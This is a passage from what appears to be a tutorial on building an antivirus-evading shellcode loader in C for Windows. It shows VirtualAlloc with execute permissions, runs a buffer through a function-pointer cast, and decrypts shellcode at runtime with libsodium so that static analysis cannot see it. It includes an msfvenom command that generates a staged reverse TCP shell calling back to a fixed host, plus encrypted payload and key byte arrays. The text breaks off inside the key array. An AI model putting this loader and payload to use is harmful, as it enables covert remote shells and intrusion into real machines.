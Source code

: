 *Keep in mind this is for using the Windows API, but there is an equivalent version for [Linux](https://pubs.opengroup.org/onlinepubs/009696699/basedefs/sys/mman.h.html)*

Before we can execute the code, we need to allocate memory that is executable. This is where we can use [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc).

**VirtualAlloc** takes four parameters:
- `[in]  LPVOID lpAddress` (optional; can be `NULL` for system to choose the address)
- `[in]  SIZE_T dwSize` (size of the memory to allocate)
- `[in]  DWORD flAllocationType` (type of memory allocation)
- `[in]  DWORD flProtect` (memory protection for the allocated region)

To make the allocated memory executable, we can set `flProtect` to `PAGE_EXECUTE_READWRITE`. The `flAllocationType` can be set to `MEM_COMMIT | MEM_RESERVE` to allocate the memory. Here’s how you can do this:

```c
SIZE_T size = sizeof(code); // Size of the code to allocate
unsigned char* code = (unsigned char*)VirtualAlloc(
    NULL,                  // Let the system choose the address
    size,                 // Size of memory to allocate
    MEM_COMMIT | MEM_RESERVE, // Allocate memory
    PAGE_EXECUTE_READWRITE // Set memory protection
);

unsigned char machine_code[] = {
    0xB8, 0x2A, 0x00, 0x00, 0x00, 0xC3
};

memcpy(code, machine_code, size);
```

Now, we can type-cast the pointer to a function and execute it:

```c
int (*func)() = (int (*)())code; // Cast the pointer to a function

int result = func(); // Execute code
```

### libsodium: Decrypting data using crypto_secretbox_open_easy

Now, the point of the program is to decrypt our shellcode at runtime, to prevent static analysis from seeing what code we are executing. To do this, we'll use `libsodium.h`. First we generate a staged reverse shell in msfvenom, then encrypt it using Cryptonite.

I used the following payload:
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.66 LPORT=8000 -o shell -f raw
```

Now we have the following data and key:

```c
    unsigned char encrypted_data[] = {
        0x4c, 0x08, 0xe2, 0xd6,
        0xd0, 0x44, 0x65, 0xa6, 
        0x3d, 0xf2, 0x88, 0xdd, 
        0xc2, 0x84, 0xaa, 0xff, 
        0xb3, 0xe9, 0x83, 0x6d, 
        0x9b, 0x17, 0x49 // and so on
    };

    unsigned char key_bytes[] = { 
        0xf0, 0xa0, 0x10, 0x85, 
        0x09, 0xe5, 0xea, 0x57, 
        0xc2, 0x8c, 0x40, 0x05, 
```